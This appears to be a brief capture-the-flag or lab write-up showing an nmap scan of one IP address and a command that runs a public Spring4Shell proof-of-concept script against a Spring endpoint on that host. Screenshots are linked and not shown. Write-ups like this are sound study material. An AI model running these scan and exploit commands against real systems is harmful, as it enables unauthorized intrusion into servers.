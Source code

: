 # Recon
```
nmap -sV -sC -oA nmap/hpny 158.247.230.159 
```
![image](https://user-images.githubusercontent.com/23620659/206842620-0144ff9e-ac35-4967-a4c7-80dd772e8809.png)


![image](https://user-images.githubusercontent.com/23620659/206842658-f0203966-3345-4a5f-9236-a8f4646c6a9a.png)

![image](https://user-images.githubusercontent.com/23620659/206849130-5fe63919-8571-4fe3-ab39-afe8fba7f2b5.png)

![image](https://user-images.githubusercontent.com/23620659/206849157-c1057303-37ae-4979-91bf-17e8a5bf27dc.png)


[exploit.py](https://raw.githubusercontent.com/reznok/Spring4Shell-POC/master/exploit.py)
```
python exploit.py --url http://158.247.230.159:8080/springshell/greeting --file 
```

![ảnh](https://user-images.githubusercontent.com/23620659/206890440-38e8f03e-9e75-454b-b897-8aafc179954b.png)

